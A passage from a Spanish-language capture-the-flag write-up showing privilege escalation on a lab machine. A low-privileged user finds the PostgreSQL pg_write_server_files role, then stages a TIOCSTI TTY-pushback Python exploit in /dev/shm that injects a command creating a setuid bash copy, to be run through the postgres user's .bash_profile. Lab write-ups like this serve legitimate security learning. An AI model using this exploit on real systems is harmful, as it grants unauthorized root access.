```bash
[Install]
WantedBy=multi-user.target
```

Al ingresar a PostgreSQL con esta contraseña y usuario, veremos que tenemos un permiso que nos facilita mucho más el asunto

```bash
wesley@download:/etc/systemd/system$ psql -U download -h localhost -W download
Password: 
psql (12.15 (Ubuntu 12.15-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

download=> \du
                                          List of roles
 Role name |                         Attributes                         |        Member of        
-----------+------------------------------------------------------------+-------------------------
 download  |                                                            | {pg_write_server_files}
 postgres  | Superuser, Create role, Create DB, Replication, Bypass RLS | {}
```

Podemos escribir archivos; buscando por internet encontraremos un PoC en Python de TTY Pushback que podemos utilizar

```python
#!/usr/bin/python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in "command-here" + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)

```

Vamos a meterlo en `/dev/shm`, y modificaremos el `.bash_profile` de `postgres` para que nos ejecute el script:

```bash
wesley@download:/dev/shm$ cat test.py
#!/usr/bin/python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in "cp /bin/bash /tmp/asd; chmod u+s /tmp/asd" + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
wesley@download:/dev/shm$ ls -la test.py
-rwxrwxr-x 1 wesley wesley 228 Nov 11 17:16 test.py
```
